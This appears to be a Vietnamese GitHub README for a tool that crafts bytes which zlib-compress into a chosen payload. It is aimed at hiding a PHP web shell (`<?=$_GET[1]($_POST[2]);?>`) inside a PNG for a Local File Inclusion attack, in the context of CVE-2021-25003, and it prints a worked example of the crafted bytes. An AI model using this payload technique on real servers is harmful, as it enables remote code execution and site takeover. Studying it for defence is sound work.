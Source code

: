 # control_zlib_compression

## Main
Chức năng của code là tạo ra một đoạn byte mà khi `zlib.compress()` sẽ tạo được một substring chứa `payload` mong muốn. 

`zlib.compress()` được dùng trong file png do đó ta có context sử dụng như sau:
- Upload file ảnh png có payload mong muốn ví dụ như `<?=$_GET[1]($_POST[2]);?>`.
- Local File Include file ảnh đó.

Ví dụ với context trên:

```python
import zlib

zlib.compress(b'\x03\xa3\x9fgTo,$\x15+!g\x12To\x11.)\x15+\x19g"ko_P') 
# Kết quả: b'x\x9cc^<?=$_GET[1]($_POST[2]);?>\x00\x00hi\x070'. Có chứa '<?=$_GET[1]($_POST[2]);?>'
```

Hoặc là với context PoC của [CVE-2021-25003](https://wpscan.com/vulnerability/5c21ad35-b2fb-4a51-858f-8ffff685de4a), có phần tìm một chuỗi hex khi compress sẽ chứa payload. Trong link thì tác giả không chỉ cách tìm ra chuỗi đó nên mình khá chật vật tìm hiểu để ~~chắp vá~~ viết ra code này.
![Oops](https://user-images.githubusercontent.com/91038460/209658753-5f66c4c3-f8af-4540-9929-31d55a990e85.png)

## Ý tưởng:
Vì zlib compression/decompression là quá trình không làm mất dữ liệu, nên nếu muốn tìm một đoạn byte mà compress ra đoạn code mong muốn thì mình sẽ decompress đoạn code đó để tìm đoạn byte. Do đó mình đi tìm hiểu về zlib compressed data format rồi cả cách implement quá trình decompression để theo ý muốn.

## Cách dùng:
Vào sửa biến `payload` rồi chạy code thôi 😉.
```Ruby
b'\x03\xa3\x9fgTo,$\x15+!g\x12To\x11.)\x15+\x19g"ko_P'

Double check
Yeah 🙂
```

Nếu chương trình bị lỗi hoặc in ra `Constraint may be violated` hoặc `Take a rest 🤕` thì có gì đó code đã sai gì đó 😭.

Ngược lại, dòng đầu tiên chính là chuỗi byte mà ta cần 😁

## ~~Chép code~~ Tham khảo:
- https://calmarius.net/index.php?lang=en&page=programming%2Fzlib_deflate_quick_reference: Đây là nơi mình đọc về format của compressed data.
- https://pyokagan.name/blog/2019-10-18-zlibinflate/. Đây là link mình đọc về thuật toán sử dụng trong `zlib.compress()` và cả chép code nữa. 🦫
